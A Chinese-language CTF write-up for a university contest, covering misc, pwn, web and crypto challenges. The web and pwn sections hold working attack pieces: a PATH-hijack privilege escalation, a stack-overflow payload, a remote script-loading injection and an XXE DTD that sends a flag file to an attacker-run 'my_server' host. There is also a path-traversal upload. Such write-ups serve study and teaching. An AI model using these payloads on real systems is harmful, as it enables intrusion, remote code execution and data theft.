


# Misc

## Signin



`D{m2uD!UFW0E_oDT_u5}TT3c_O2_CfTrC1TsTE`一眼乱序，栅栏密码解密后得到 `DUTCTF{W31c0mE_TO_2o2s_DuTCTf_DuTEr5!}`

## 特定低手


发现桥上有字


调用语言模型无脑开启联网搜索

```log
地上写着 バス専用

7:30 - 9:00 Overpass有个明治通り (Meiji Dōri)

豊島区目白三丁目 (Toshima-ku Mejiro San-chōme)给我具体经纬度
```

[google地图](https://www.google.com/maps/@35.7204533,139.7130719,3a,75y,353.8h,91.22t/data=!3m7!1e1!3m5!1sXsk9Ia4QsuXgbWyH5aVmMQ!2e0!6shttps:%2F%2Fstreetviewpixels-pa.googleapis.com%2Fv1%2Fthumbnail%3Fcb_client%3Dmaps_sv.tactile%26w%3D900%26h%3D600%26pitch%3D-1.2232476107826642%26panoid%3DXsk9Ia4QsuXgbWyH5aVmMQ%26yaw%3D353.79558674265166!7i16384!8i8192!5m1!1e2?entry=ttu&g_ep=EgoyMDI1MDQyOC4wIKXMDSoJLDEwMjExNDUzSAFQAw%3D%3D)

邮编数字部分 `1710032`

## Terminal

```log
test@046413259f36:~$ find / -type f \( -perm -4000 -o -perm -2000 \) -ls 2>/dev/null
  4599371     40 -rwxr-sr-x   1 root     shadow      39160 Sep 22  2023 /usr/sbin/unix_chkpwd
  4603694     52 -rwsr-xr--   1 root     messagebus    51272 Sep 16  2023 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  4603899    640 -rwsr-xr-x   1 root     root         653888 Feb 14 21:06 /usr/lib/openssh/ssh-keysign
  4597709     64 -rwsr-xr-x   1 root     root          62672 Mar 23  2023 /usr/bin/chfn
  4597715     52 -rwsr-xr-x   1 root     root          52880 Mar 23  2023 /usr/bin/chsh
  4597706     80 -rwxr-sr-x   1 root     shadow        80376 Mar 23  2023 /usr/bin/chage
  4597926     36 -rwsr-xr-x   1 root     root          35128 Nov 22 04:01 /usr/bin/umount
  4597850     68 -rwsr-xr-x   1 root     root          68248 Mar 23  2023 /usr/bin/passwd
  4597776     88 -rwsr-xr-x   1 root     root          88496 Mar 23  2023 /usr/bin/gpasswd
  4597834     60 -rwsr-xr-x   1 root     root          59704 Nov 22 04:01 /usr/bin/mount
  4597902     72 -rwsr-xr-x   1 root     root          72000 Nov 22 04:01 /usr/bin/su
  4597839     48 -rwsr-xr-x   1 root     root          48896 Mar 23  2023 /usr/bin/newgrp
  4597760     32 -rwxr-sr-x   1 root     shadow        31184 Mar 23  2023 /usr/bin/expiry
  4602046    476 -rwxr-sr-x   1 root     _ssh         485760 Feb 14 21:06 /usr/bin/ssh-agent
  4609046     16 -rwsr-xr-x   1 root     root          16064 Feb 28 15:46 /tmp/whatisthis
test@046413259f36:~$/tmp/whatisthis
    PID TTY          TIME CMD
     23 pts/0    00:00:00 whatisthis
     24 pts/0    00:00:00 sh
     25 pts/0    00:00:00 ps
test@046413259f36:~$ echo '/bin/sh' > ~/ps
test@046413259f36:~$ chmod +x ~/ps
test@046413259f36:~$ export PATH=~:$PATH
test@046413259f36:~$ /tmp/whatisthis
```

`/tmp/whatisthis` -> `whatisthis` 程序内部启动 `sh` -> `sh` 执行 `ps` 命令 -> `ps` 输出进程列表

路径劫持直接提权

## 我是少女乐队高手


两个音轨 相同记为 `0` 不同记为 `1`

`midi2csv` 转换后提取出

```python
a = "00010100100100011001010110010101010101000100110001010100100100011101100101001100100011000100110001011000110111101001000110011010100101100000110010011101110111011101100100011010100100111000111001"
len(a) == 194
```

多两位 把前两个丢了



# pwn

## minesweeper

`No canary found` 栈溢出

```c
__int64 read_int(void)
{
  unsigned int buf; // [rsp+Ch] [rbp-4h] BYREF

  read(0, &buf, 0x10uLL);
  return buf;
}
```

```log
win(void)	.text	000000000000222F	00000030	00000008		.	.	.	.	.	.	B	T	.
```

```python
payload = b'A'*12 + b'F'
print(f"[*] Sending payload ({len(payload)} bytes): {payload}")
io.send(payload)  # Use send() for read(), not sendline()
print("[+] Payload sent.")
io.interactive()
```

`/bin/sh` 提权

## kernel_master

解压一下就拿到了`flag{test}`

本题不会做 纯误判

# Web

## Real_E2_J5!

```bash
curl -X POST http://210.30.97.133:10079/validate \
-H "Content-Type: application/json" \
-d '{"key": "adminSecret", "value": "adminSecret", "adminSecret": "hack"}'

curl http://210.30.97.133:10079/admin?secret=hack
```
逻辑漏洞 覆盖 `adminSecret`

## Editor

```json
{
    "name": "javascript",
    "script": "var a=new java.beans.Customizer{setObject:load};a.object=\"http://my_server:8000/payload.js\""
}
```
写到这里突然发现服务器`8000`端口当时做完忘了关 被扫爆了

求求佬帮看看有没有敏感数据 整个用户文件夹全被扫了

[langqi99.com/data.log](http://langqi99.com/data.log)

## Real_upload?

跟上面类似的

```dtd
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://my_server:8001/?data=%file;'>">
%all;
```

```bash
cat << EOF > name.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM "http://my_server:8000/evil.dtd">
  %dtd;
]>
<data>&send;</data>
EOF

curl -X POST -F 'file=@name.xml;filename="../../../../../../../../tmp/name.xml"' http://210.30.97.133:10176/upload

curl http://210.30.97.133:10176/hello
```

# Crypto

## Signin

```python
import gmpy2 # Using gmpy2 for efficient modular inverse calculation
import math

# Given values from the CTF challenge
c = 52354976201766669118320630176887314071011255313891475177309220942626308982212207656434544882959155963535322671950878583826524168178944409579938839799964263156869607430342733103192161887476831655038675686355158926050329782714167002188689556206753594011414672752687969286190800625479272347359078146861058813575
e = 65537
n = 128695631920242750589686556821575285363077338716894598150505853922988731458730235702902751496167097055081015591831536126839547857423987907590407313564456519185448221625668476322936885010691918434072938135430858464606477495727174799865802582744611435244880867181739290162314813391707310015481379681575178925149

# Step 1: Check if n is prime (optional, but good practice)
# We already confirmed this using external tools/information
# For a programmatic check (can be slow for large n):
# if not gmpy2.is_prime(n):
#     print("Error: n is not prime, but the challenge implies it is.")
#     exit()
# else:
#     print("Confirmed: n is prime.")

# Step 2: Calculate Euler's totient function for a prime n, which is phi(n) = n - 1
phi_n = n - 1
print(f"Since n is prime, phi(n) = n - 1 = {phi_n}\n")

# Step 3: Calculate the private exponent d, which is the modular multiplicative inverse of e modulo phi(n)
# d * e ≡ 1 (mod phi(n))
try:
    # Ensure e and phi_n are coprime
    if gmpy2.gcd(e, phi_n) != 1:
         print(f"Error: e ({e}) and phi_n ({phi_n}) are not coprime. gcd = {gmpy2.gcd(e, phi_n)}")
         print("Decryption is not possible with this e.")
    else:
        d = gmpy2.invert(e, phi_n)
        print(f"Calculated private exponent d = {d}\n")

        # Step 4: Decrypt the ciphertext c to get the plaintext message m
        # m = c^d mod n
        # Use the built-in pow(base, exponent, modulus) for efficiency
        m_int = pow(c, d, n)
        print(f"Decrypted integer m = {m_int}\n")

        # Step 5: Convert the resulting integer m into bytes, then decode into a string
        # The number of bytes needed is ceil(log2(m) / 8)
        # or more simply (m.bit_length() + 7) // 8
        byte_length = (m_int.bit_length() + 7) // 8
        m_bytes = m_int.to_bytes(byte_length, 'big') # 'big' means most significant byte first

        print(f"Decrypted bytes = {m_bytes}\n")

        # Try decoding the bytes as UTF-8 (common for flags) or ASCII
        try:
            m_str = m_bytes.decode('utf-8')
            print(f"Decrypted string (UTF-8): {m_str}")
        except UnicodeDecodeError:
            try:
                m_str = m_bytes.decode('ascii')
                print(f"Decrypted string (ASCII): {m_str}")
            except UnicodeDecodeError as e:
                print(f"Could not decode bytes into a readable string: {e}")
                print("The result might be raw bytes or require different decoding.")

except ValueError:
    # This specific error might not be reachable if gcd check is done first,
    # but kept for robustness. gmpy2.invert raises ZeroDivisionError if modulus is 1 or less.
    print(f"Error calculating modular inverse. Is phi_n valid?")

```

## Whereisp&q

```python
import math
from Crypto.Util.number import long_to_bytes

# --- 从问题描述中获取的已知值 ---
N = 70043427687738872803871163276488213173780425282753969243938124727004843810522473265066937344440899712569316720945145873584064860810161865485251816597432836666987134938760506657782143983431621481190009008491725207321741725979791393566155990005404328775785526238494554357279069151540867533082875900530405903003
enc_flag = 20797621445779853622774031988797057713071576485981176620438476287691431211827108973711188565531231624908250816829606043339050674851955845245175767829499048697190880649138351268910380674343685058356646195398107343184004661886569002983286808168852810944626906687603677922754297685190621595441100414259760595685
a = 8369195163678456889416121467476480674288621867182572824570660596055739410903686466334448920102666056798356927389728982948229326705483052970212882852055482
b = 25500181489306553053743739056022091355379036380919737553326529889338409847082228856006303427136881468093863020843230477979
c = 8369195163678456889416121462308686152524805984209312455308229689034789710117101859597220211456125364647704791637845189120538925088375209397006380815921158
d = 31448594528370020763962343185054872105044827103889010592635556324009793301024988530934510929565983517651356856506719032859

# --- 步骤 1: 计算公共指数 e ---
# N = a^2 + e*b^2  => e = (N - a^2) / b^2
# N = c^2 + e*d^2  => e = (N - c^2) / d^2
e1 = (N - a*a) // (b*b)
e2 = (N - c*c) // (d*d)

# 验证两个方程计算出的 e 是否相同
assert e1 == e2
e = e1
print(f"[+] 计算得到公共指数 e = {e}")
print(f"    e 的比特长度: {e.bit_length()}")


# --- 步骤 2: 使用 Brillhart 方法分解 N ---
# 基于 N = a^2 + eb^2 = c^2 + ed^2
# 计算 k = ad - bc
# 计算 g = gcd(N, k)。如果 1 < g < N, 则 g 是 N 的一个因子
k = a*d - b*c
print(f"[+] 计算 k = ad - bc = {k}")

# 使用 math.gcd 计算最大公约数
g = math.gcd(N, k)
print(f"[+] 计算 g = gcd(N, k) = {g}")

# 检查 g 是否是一个非平凡因子
if 1 < g < N:
    p = g
    q = N // g
    print(f"[+] 成功找到因子:")
    print(f"    p = {p}")
    print(f"    q = {q}")
    # 验证 p * q 是否等于 N
    assert p * q == N
else:
    # 如果 gcd(N, ad-bc) 失败，可以尝试 gcd(N, ac+ebd)
    # 但在这个问题中，通常 gcd(N, ad-bc) 会成功
    print("[-] 使用 gcd(N, ad-bc) 分解失败，可以尝试其他方法（例如 gcd(N, ac+ebd)），但在此省略。")
    exit() # 如果分解失败则退出


# --- 步骤 3: 计算 RSA 私钥 ---
# 计算欧拉函数 phi(N) = (p-1)*(q-1)
phi = (p - 1) * (q - 1)
print(f"[+] 计算 phi(N) = {phi}")

# 计算私钥 d_priv，它是 e 模 phi(N) 的乘法逆元
# d_priv = e^(-1) mod phi
d_priv = pow(e, -1, phi)
print(f"[+] 计算得到私钥 d_priv = {d_priv}")


# --- 步骤 4: 解密消息 ---
# m = enc_flag ^ d_priv mod N
m = pow(enc_flag, d_priv, N)
print(f"[+] 解密得到消息整数 m = {m}")


# --- 步骤 5: 将消息整数转换回字节 ---
flag = long_to_bytes(m)
print(f"[+] 将 m 转换回字节:")

# --- 输出最终的 Flag ---
# 使用 try-except 来处理可能的解码错误（尽管通常是 utf-8）
try:
    print(f"\n[*] Flag: {flag.decode('utf-8')}")
except UnicodeDecodeError:
    print(f"\n[*] Flag (字节形式): {flag}")
```

## stream&block

```python
#!/usr/bin/env python3
from pwn import *
import sys

# Define the action function locally for checking
def action(msg):
    r = 0
    for b in msg:
        r ^= b
    return r

# --- Connection Details ---
HOST = "210.30.97.133"
PORT = 10003

# Set context for architecture, os, etc. (optional but good practice)
context.log_level = 'info' # Set to 'debug' for more verbose output

# Connect to the server
try:
    conn = remote(HOST, PORT)
except PwnlibException as e:
    log.error(f"Failed to connect to {HOST}:{PORT} - {e}")
    sys.exit(1)

# Read the initial banner
try:
    conn.recvuntil(b' > ')
except EOFError:
    log.error("Connection closed immediately after connect.")
    sys.exit(1)


log.info("Starting probe...")
good_ops = []

for op in range(256):
    # Construct probe P
    # If op is 0, use all null bytes. Otherwise, use byte(op) followed by null bytes.
    p_bytes = bytes([op]) + b'\x00' * 15 if op != 0 else b'\x00' * 16
    p_hex = p_bytes.hex()

    log.debug(f"Testing op={op}, P_hex={p_hex}")

    try:
        # Send choice 1 (Encrypt)
        conn.sendline(b'1')
        # Send plaintext hex
        conn.sendlineafter(b'input your plaintext(hex) > ', p_hex.encode())
        # Receive response
        response_line = conn.recvline().decode().strip()
        log.debug(f"Raw response for op={op}: {response_line}")

        # Parse ciphertext hex
        if response_line.startswith("encrypted ciphertext: "):
            c_hex = response_line.split("encrypted ciphertext: ")[1]
            c_bytes = bytes.fromhex(c_hex)

            # Check action
            act_c = action(c_bytes)
            log.debug(f"op={op}, action(P)={op}, action(C)={act_c}")
            if act_c == op:
                log.success(f"*** Found good op: {op} ***")
                good_ops.append(op)
        else:
             log.warning(f"Unexpected response format for op={op}: {response_line}")

        # Ready for the next command
        conn.recvuntil(b' > ')

    except EOFError:
        log.error("Connection closed unexpectedly during loop.")
        sys.exit(1)
    except ValueError as e:
        log.error(f"Hex decoding error for op={op}, response: {response_line} - {e}")
        # Try to recover by reading until the next prompt
        try:
            conn.recvuntil(b' > ')
        except EOFError:
            log.error("Connection closed while trying to recover from hex error.")
            sys.exit(1)
    except Exception as e:
        log.error(f"An error occurred for op={op}: {e}")
        # Try to recover
        try:
            conn.recvuntil(b' > ')
        except EOFError:
            log.error("Connection closed while trying to recover from general error.")
            sys.exit(1)


log.info(f"Finished probing. Good ops found: {good_ops}")

if not good_ops:
    log.error("No suitable op found. Cannot proceed.")
else:
    # Choose the first good op found
    chosen_op = good_ops[0]
    log.info(f"Using op = {chosen_op} for the magic text.")

    # Construct the magic block based on the chosen op
    p_good_bytes = bytes([chosen_op]) + b'\x00' * 15 if chosen_op != 0 else b'\x00' * 16

    # Construct the final message (4 blocks = 64 bytes >= 50 bytes required)
    magic_msg_bytes = p_good_bytes * 4
    magic_msg_hex = magic_msg_bytes.hex()

    log.info(f"Constructed magic message (hex): {magic_msg_hex}")

    try:
        # Send choice 3 (Verify)
        conn.sendline(b'3')
        log.info("Sent choice 3 (Verify)")

        # Send the magic message hex
        conn.sendlineafter(b'input your text(hex) > ', magic_msg_hex.encode())
        log.info("Sent magic text")

        # Receive the final response (hopefully the flag)
        final_response = conn.recvall(timeout=3).decode() # Adjust timeout if needed
        log.success("Received final response:")
        print("\n" + "="*20 + " FINAL SERVER RESPONSE " + "="*20)
        print(final_response)
        print("="*61)

    except EOFError:
        log.error("Connection closed before receiving the final response.")
    except Exception as e:
        log.error(f"An error occurred during verification: {e}")

# Close the connection (pwntools usually handles this, but explicit is fine)
conn.close()
log.info("Connection closed.")
```


## signature2

```python
#!/usr/bin/env python3
from pwn import *
from Crypto.Util.number import inverse, long_to_bytes, GCD

# Connection details from the challenge description
HOST = "210.30.97.133"
PORT = 10095

# Start connection
log.info(f"Connecting to {HOST}:{PORT}")
conn = remote(HOST, PORT)

# Receive public key
conn.recvuntil(b"This is your Public key: (")
p_str = conn.recvuntil(b", ", drop=True)
g_str = conn.recvuntil(b", ", drop=True)
y_str = conn.recvuntil(b")", drop=True)

p = int(p_str)
g = int(g_str)
y = int(y_str)

log.success(f"Received Public Key:")
log.info(f"  p = {p}")
log.info(f"  g = {g}")
log.info(f"  y = {y}")

# Send a dummy message (its signature will be ignored)
conn.recvuntil(b"Please tell me what you want to sign:\n> ")
dummy_msg = b"initial_message"
conn.sendline(dummy_msg)
log.info(f"Sent dummy message: {dummy_msg}")

# Receive the dummy signature (and ignore it)
conn.recvuntil(b"Your signature is: (")
conn.recvuntil(b")") # Consume the signature line
log.info("Received and ignored dummy signature.")

# --- Perform Existential Forgery ---
log.info("Calculating forged signature...")
u = 1
v = 1
p_minus_1 = p - 1

# Ensure v is coprime to p-1 (v=1 is always coprime)
assert GCD(v, p_minus_1) == 1, "v must be coprime to p-1"

# 1. Calculate r' = (g^u * y^v) % p
r_prime = (pow(g, u, p) * pow(y, v, p)) % p

# 2. Calculate s' = (-r' * inverse(v, p-1)) % (p-1)
try:
    v_inv = inverse(v, p_minus_1)
except ValueError:
    log.error(f"Inverse of v={v} mod p-1={p_minus_1} does not exist!")
    conn.close()
    exit()
# Need to compute -r' mod (p-1). Ensure r' is reduced if needed, though result of pow gives 0 <= r' < p.
# The modulo operation requires the argument to be non-negative sometimes depending on language/library.
# (-r_prime * v_inv) % p_minus_1 handles this correctly in Python.
s_prime = (-r_prime * v_inv) % p_minus_1

# 3. Calculate m' = (s' * u) % (p-1)
m_prime = (s_prime * u) % p_minus_1

log.success("Calculated Forged Signature Components:")
log.info(f"  m' = {m_prime}")
log.info(f"  r' = {r_prime}")
log.info(f"  s' = {s_prime}")

# Sanity check: verify locally (optional)
lhs = pow(g, m_prime, p)
rhs = (pow(y, r_prime, p) * pow(r_prime, s_prime, p)) % p
if lhs == rhs:
    log.info("Local verification successful!")
else:
    log.warning("Local verification failed! Something might be wrong.")
    # continue anyway, maybe a calculation nuance

# Check if the forged message m' would convert to the same bytes as the dummy message
try:
    m_prime_bytes = long_to_bytes(m_prime)
    if m_prime_bytes == dummy_msg:
        log.error("Forged message m' is the same as the initial dummy message!")
        log.error("Attack will fail. Try different u, v or dummy_msg.")
        conn.close()
        exit()
except ValueError:
    # If m_prime is 0, long_to_bytes might give empty bytes b''
    if m_prime == 0 and dummy_msg == b'':
         log.error("Forged message m'=0 might conflict with empty dummy message!")
         # Handle this case if needed, but unlikely with non-empty dummy_msg
    # Otherwise, it's fine, m'=0 -> b'' is different from non-empty dummy_msg
    pass


# Send the forged message and signature
log.info("Sending forged message and signature...")
conn.recvuntil(b"m: ")
conn.sendline(str(m_prime).encode())
log.info(f"Sent m': {m_prime}")

conn.recvuntil(b"r: ")
conn.sendline(str(r_prime).encode())
log.info(f"Sent r': {r_prime}")

conn.recvuntil(b"s: ")
conn.sendline(str(s_prime).encode())
log.info(f"Sent s': {s_prime}")

# Receive the flag or error message
log.info("Waiting for response...")
response = conn.recvall(timeout=5)

log.success("Received response:")
print(response.decode())

conn.close()
log.info("Connection closed.")
```

## signature1

```python
import pwn
from Crypto.Util.number import bytes_to_long, long_to_bytes

# Connection details (replace if different)
# From your screenshot:
HOST = '210.30.97.133'
PORT = 10049

try:
    # Establish connection
    conn = pwn.remote(HOST, PORT)
    pwn.context.log_level = 'info' # Show interaction logs

    # 1. Receive public key
    conn.recvuntil(b'This is your public key:\n')
    pubkey_str = conn.recvline().strip().decode()
    # Handle potential extra characters if any
    pubkey_str = pubkey_str.strip('()')
    p, g, y = map(int, pubkey_str.split(', '))
    conn.info(f"Received p = {p}")
    conn.info(f"Received g = {g}")
    conn.info(f"Received y = {y}")

    # 2. Define Target
    target_message = b'DUTCTF'
    m_target = bytes_to_long(target_message)
    conn.info(f"Target m = {m_target}")

    # 3. Craft Alternative Message
    p_minus_1 = p - 1
    m_prime = m_target + p_minus_1
    msg_prime_bytes = long_to_bytes(m_prime)
    conn.info(f"Crafted m' = {m_prime}")
    # Note: msg_prime_bytes might be very large

    # 4. Request Signature for the alternative message
    conn.recvuntil(b'Please tell me what you want to sign?\n> ')
    conn.info(f"Sending alternative message bytes (length {len(msg_prime_bytes)}) to sign...")
    conn.sendline(msg_prime_bytes)

    # Receive the signature (r, s) for msg_prime
    conn.recvuntil(b'This is your signature:\n')
    r_line = conn.recvline().strip().decode()
    s_line = conn.recvline().strip().decode()

    # Extract r and s carefully
    try:
        r = int(r_line.split('=')[1])
        s = int(s_line.split('=')[1])
        conn.info(f"Received r = {r}")
        conn.info(f"Received s = {s}")
    except (IndexError, ValueError) as e:
        conn.error(f"Failed to parse signature: r='{r_line}', s='{s_line}'")
        conn.close()
        exit()

    # 5. Submit Signature for the original target message
    conn.recvuntil(b"If you want to get the flag. Please tell me your signature\n> ")
    conn.info(f"Sending r = {r}")
    conn.sendline(str(r).encode())
    conn.recvuntil(b'> ') # Prompt for s
    conn.info(f"Sending s = {s}")
    conn.sendline(str(s).encode())

    # 6. Receive the result (hopefully the flag)
    conn.info("Waiting for flag...")
    # Use recvall to get all remaining output
    result = conn.recvall(timeout=5) # Adjust timeout if needed
    conn.success(f"Result: {result.decode()}")

    # Close connection
    conn.close()

except Exception as e:
    pwn.context.log_level = 'error'
    conn.error(f"An error occurred: {e}")
    if 'conn' in locals() and conn:
        conn.close()
```

## MetamikuMatrixMaster

```python
# Define p and c_list (ensure full c list is used)
p = 94951668914836210059795315483536443488933021611300220555898947046010704751659
c_list = [
    8035334017032303676884495695093849049591116586402215453176893169647528573473, 59633132506897001337475181076769716084659260056174745705282228861660454585844,
    28162843329479433477265065446992147859471233196414186246357440403309160334499, 4299109678466131600343618060605648056113232607349218027650135505549407963910,
    4087741063724374061725013462278085730705718667489149938923893312651486614669, 73854298568255274991238074779725329201544960932611944103367706659761710498656,
    71229461213142919346904865844975917255119439992501630368712083457562572987703, 16114686718014289723082144014633157871938855520267677347584656837586670455351,
    33815553137609375986764941536846486955311356747431282265813722199746367730735, 83230726604103337485693252608736987952116487439584868153421572585765208737752,
    43354624060867962612688844511954799809306957508254538657246407957691125473891, 55101837278890697174045987723057079542992530782626626822696566148569826190699,
    62604177849321207690994918211253550152229643480313270600641056287690505746500, 55392545954254989540181949652718594327551409387597584348155637070136573822824,
    28077377409202524772685778716251907003804101264114658216348829339456013295161, 21334443181285981988980698630756886134980141537264094330711028083765063415519,
    86527877688353267156038544409564951171579421083230184768315012173819906199896, 65794756895324638675873258762812358451842848189145910550661817702224116966369,
    22957500705937080580790222196044227350593392941014901984708370379340604555411, 55977668885664502413144853336297159131177754737530642324233093247568745687864,
    93062235767859648250412725812749448881541642649971084665181528969581777561465, 30474926227967272254439075001191161577976221357861668422513122909667896147233,
    60775836432659248756300048642443361744048616393839129752849968709547592033670, 71214544835243381339076088571162567904668832029672120026798494828609569503119,
    1174815806395901492096195189104319047839644470732310954592448712895225126130, 25608109273384978479485966037827618297462947734861101290796152980521502852654,
    84310874165903335358606830377169502406570533488803476591113974411344926639939, 24825972828150211947708356276934254637682047694949045115854000286055596575358,
    77671717686612226841883804936168777380412228821522967173353349296517170636360, 69846508771180325151756459684876846450893191201713121999727511653375604855218,
    8987813778406417907094761426890842138014909328197870288562454428726660271907, 30440204987717603713083763738703598556857003088625013718943318268794375542978,
    19521407840482588407487908680073693029442255108207197779397873576957114219574, 53017306130976718162852673259699032134557815647762813929925333742376644678749,
    15774515989940084946089586257040469965291992992385643947928102390855958180000
]

# Ensure c is a SageMath vector
c = vector(Zmod(p), c_list)

n = len(c)

# Convert c components to SageMath integer type ZZ
c_int = [ZZ(x) for x in c]

# Construct the lattice basis matrix M
M = Matrix(ZZ, n + 1, n)
for i in range(n):
    M[i, i] = p
for i in range(n):
    M[n, i] = c_int[i]

print("Matrix M constructed. Running LLL...")
# Run LLL
B = M.LLL()
print("LLL computation finished.")
# print("Reduced Basis B (first few rows):") # Optional: print basis if needed
# print(B.nrows())
# for i in range(min(5, B.nrows())): # Print first 5 rows or fewer
#    print(f"B[{i}]: {B[i]}")

# --- Try to find the correct vector ---
target_vec = None
if B[0].is_zero():
    print("B[0] is the zero vector. Trying B[1]...")
    if B.nrows() > 1 and not B[1].is_zero():
         target_vec = B[1]
         print("Using B[1] as the target vector.")
    else:
        print("B[1] is also zero or does not exist. Cannot proceed.")
else:
    # Check if B[0] magnitude seems reasonable (heuristic)
    # A very small norm might indicate the zero vector or an issue.
    # Check nbits of the first component as a rough proxy for size.
    if abs(B[0][0]).nbits() > 100: # Expect components ~135 bits
        target_vec = B[0]
        print("Using B[0] as the target vector.")
    else:
        print(f"B[0] seems potentially too small (first component has {abs(B[0][0]).nbits()} bits). Checking B[1]...")
        if B.nrows() > 1 and not B[1].is_zero() and abs(B[1][0]).nbits() > 100:
            target_vec = B[1]
            print("Using B[1] as the target vector.")
        else:
             print("B[1] is also zero, too small, or doesn't exist. Defaulting back to B[0] or stopping.")
             # Decide whether to proceed with B[0] or stop if both seem wrong
             if not B[0].is_zero():
                 print("Proceeding with potentially small B[0].")
                 target_vec = B[0]
             else:
                 print("Both B[0] and B[1] seem problematic. Stopping.")
                 target_vec = None # Ensure we don't proceed


if target_vec is None:
    print("Could not identify a suitable short vector from LLL basis.")
else:
    # print(f"Using vector: {target_vec}") # Optional: print the vector being used
    flag = ""
    print("Attempting to recover flag from the selected vector...")

    found_flag = True
    possible_chars = list(range(32, 127)) # ASCII printable range

    for i, val in enumerate(target_vec): # Use enumerate to get index if needed
        abs_val = abs(ZZ(val))
        if abs_val == 0:
            print(f"Error: Component {i} is zero.")
            flag += "?"
            found_char = False # Maintain consistency
            found_flag = False # Mark overall flag recovery as failed
            continue # Skip to the next component

        found_char = False
        for char_code in possible_chars:
            if abs_val % char_code == 0:
                potential_prime = abs_val // char_code
                # Check if quotient is non-zero and prime
                # Add bit size check for robustness
                if potential_prime != 0 and potential_prime.is_prime() and 120 < potential_prime.nbits() < 140:
                     flag += chr(char_code)
                     found_char = True
                     break # Found the correct factor
        if not found_char:
            # If no factor is found, print more info
            print(f"Error: Could not find valid character factor for value {abs_val} (nbits: {abs_val.nbits()}) at index {i}")
            flag += "?"
            found_flag = False

    # Print final result
    if found_flag:
        print("\nSuccessfully recovered flag:")
        print(flag)
    else:
        print("\nCould not recover the full flag. Partial result:")
        print(flag)
```

## Xxxxxxxor

```python
import binascii
import math

# --- 本次连接获取的新数据 ---
key_decimal_str = "129159542755632"
ciphertext_hex = "312d18e90576e487ecb33034d1e7c8737024740619e64564155759a615558407a9f6756471e7cc9634d"
# --- 数据结束 ---

try:
    key_decimal = int(key_decimal_str)

    # --- 根据新的数字计算密钥字节 (大端序) ---
    # hex(129159542755632) -> 0x7558407a9f6750 -> 需要 7 bytes
    num_bytes = 7 # 根据上面计算，这次是7字节
    print(f"Attempting key interpretation: Decimal {key_decimal} -> {num_bytes} bytes (BIG-endian)")
    key_bytes = key_decimal.to_bytes(num_bytes, byteorder='big')
    # 密钥应该是 b'\x75\x58\x40\x7a\x9f\x67\x50'

except ValueError:
    print(f"Error: Could not convert '{key_decimal_str}' to integer.")
    exit()
except OverflowError:
     print(f"Error: Decimal number issue with {num_bytes} bytes.")
     exit()

# 将十六进制密文转换为 bytes
ciphertext_bytes = binascii.unhexlify(ciphertext_hex)
print(f"Key length: {len(key_bytes)} bytes. Ciphertext length: {len(ciphertext_bytes)} bytes.") # 应该输出 7 和 49

# 执行 XOR 解密
result_bytes = bytearray()
key_len = len(key_bytes)
if key_len == 0:
    print("Error: Key is empty.")
    exit()

for i in range(len(ciphertext_bytes)):
    # 密文字节与对应密钥字节（循环使用）进行 XOR
    xor_byte = ciphertext_bytes[i] ^ key_bytes[i % key_len]
    result_bytes.append(xor_byte)

# 尝试将解密后的 bytes 解码为字符串
try:
    decrypted_text = result_bytes.decode('utf-8')
    print("Decrypted Text:")
    print(decrypted_text)
    # 因为 49 % 7 == 0，这次可能得到完整的 flag
except UnicodeDecodeError:
    print("Failed to decode result as UTF-8. Here are the raw bytes:")
    print(result_bytes)
    print("Hex representation of result:")
    print(binascii.hexlify(result_bytes).decode('utf-8'))
```


